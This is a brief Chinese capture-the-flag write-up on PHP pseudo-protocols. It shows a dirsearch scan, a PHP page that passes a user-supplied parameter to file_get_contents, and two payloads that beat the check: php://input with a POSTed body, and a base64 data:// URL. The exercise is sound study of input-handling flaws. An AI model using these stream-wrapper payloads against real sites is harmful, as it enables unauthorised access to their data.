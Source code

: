 #PHP伪协议 
```sh
dirsearch -u  "url"

结果：
[16:16:45] 200 -  233B  - /test.txt
[16:16:49] 200 -  192B  - /www.rar
```

/test.txt
```php
<?php
error_reporting(0);
if(isset($_GET['cxk'])){
    $cxk=$_GET['cxk'];
    if(file_get_contents($cxk)=="ctrl"){
        echo $flag;
    }else{
        echo "洗洗睡吧";
    }
}else{
    echo "nononoononoonono";
}
?>
```

/www.rar -> gift(2).txt
```txt
恭喜你
turn to

/orzorz.php
```
发现test.txt内容即为orzorz.php

尝试 `?cxk=php://input` burpsuite 设置数据为 ctrl 成功
尝试 `?cxk=data://text/plain;base64,Y3RybA==`  成功

